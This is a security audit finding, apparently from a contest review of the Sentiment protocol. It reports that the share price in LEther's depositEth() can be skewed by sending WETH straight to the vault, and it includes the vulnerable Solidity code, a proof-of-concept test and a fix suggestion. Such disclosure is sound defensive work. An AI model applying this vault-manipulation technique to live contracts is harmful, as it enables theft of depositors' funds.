 8olidity

high

# An attacker can control the calculation of `LEther::depositEth()`

## Summary
An attacker can control the calculation of `LEther::depositEth()`
## Vulnerability Detail
In `depositEth()`, `shares` are counted based on the number of `assets` passed in by the user,
```solidity
    function depositEth() external payable returns (uint shares) {
        uint assets = msg.value;

        beforeDeposit(assets, shares);
        if ((shares = previewDeposit(assets)) == 0) revert Errors.ZeroShares();

        IWETH(address(asset)).deposit{value: assets}();

        _mint(msg.sender, shares);
        emit Deposit(msg.sender, msg.sender, assets, shares);
    }
```
The result of `shares` is calculated by `previewDeposit()`

```solidity
    function previewDeposit(uint256 assets) public view virtual returns (uint256) {
        return convertToShares(assets);
    }

    function convertToShares(uint256 assets) public view virtual returns (uint256) {
        uint256 supply = totalSupply; // Saves an extra SLOAD if totalSupply is non-zero.

        return supply == 0 ? assets : assets.mulDivDown(supply, totalAssets());
    }
```
As you can see, the actual `shares` are counted by both `supply` and `totalassets()`, while `totalassets()` are counted by the `assets` of the contract, so an attacker could send `asset tokens` to the contract to manipulate the result of `convertToShares()`

#### poc
Tests found that if an attacker sent weth directly to the LETHer.sol contract, it affected the outcome of the next `depositeth()`. Reference `testDeFFFF()`, the second user `depositEth()` will result in `500000000000000000`, while in normal `testDeXXXX()`, the second user will call `depositEth()` with `1000000000000000000`

```solidity

    function testDeFFFF() public {
        // Setup
        uint256 amt = 10 ** 18;
        cheats.deal(lender, amt*2);
        // Test1 
        cheats.prank(lender);
        lEth.depositEth{value: amt}();
        emit log_named_uint("lEth.convertToShares(amt)",lEth.convertToShares(amt)); //  1000000000000000000
        cheats.startPrank(lender);
        weth.deposit{value: amt}();
        weth.transfer(address(lEth),amt);
        cheats.stopPrank();
        emit log_named_uint("lEth.convertToShares(amt)",lEth.convertToShares(amt)); // 500000000000000000
    }

    function testDeXXXX() public {
        // Setup
        uint256 amt = 10 ** 18;
        cheats.deal(lender, amt*2);
        // Test1 
        cheats.prank(lender);
        lEth.depositEth{value: amt}();
        emit log_named_uint("lEth.convertToShares(amt)",lEth.convertToShares(amt)); //  1000000000000000000
        cheats.prank(lender);
        lEth.depositEth{value: amt}();
        emit log_named_uint("lEth.convertToShares(amt)",lEth.convertToShares(amt)); // 1000000000000000000
    }
```



## Impact
An attacker can control the calculation of `LEther::depositEth()`
## Code Snippet
https://github.com/sherlock-audit/2022-11-sentiment/blob/main/protocol-merged/src/tokens/LEther.sol#L35
https://github.com/sherlock-audit/2022-11-sentiment/blob/main/protocol-merged/src/tokens/utils/ERC4626.sol#L145-L159
## Tool used

Manual Review

## Recommendation
Instead of using the contract's own money to calculate, record the value of both assets